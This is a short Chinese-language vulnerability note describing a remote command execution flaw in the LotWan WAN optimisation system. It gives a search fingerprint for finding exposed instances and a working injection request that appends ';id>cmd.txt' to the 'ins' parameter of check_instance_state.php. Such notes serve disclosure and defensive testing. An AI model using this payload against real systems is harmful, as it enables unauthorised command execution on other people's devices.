

# 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面


存在漏洞的文件为

```
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

